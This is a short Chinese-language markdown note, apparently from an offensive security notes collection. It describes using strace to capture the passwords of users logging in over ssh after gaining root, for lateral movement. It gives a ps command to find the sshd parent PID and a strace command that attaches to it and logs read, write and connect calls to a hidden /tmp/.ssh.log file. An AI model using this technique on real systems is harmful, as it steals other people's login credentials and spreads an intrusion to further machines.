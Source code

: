 ```yaml
---
title: strace监听ssh来源流量
id: zhfly3489
---
```


# strace监听ssh来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取root权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用strace来监听登陆本地的sshd流量。

```
ps -ef | grep sshd #父进程PID
strace -f -p 12617 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048 
```

![image](../img/80b66cc4f2ac6766f46a608cebdd7b67.png)

![image](../img/f5e2c91201ce308ce9ac8f534bbff45a.png)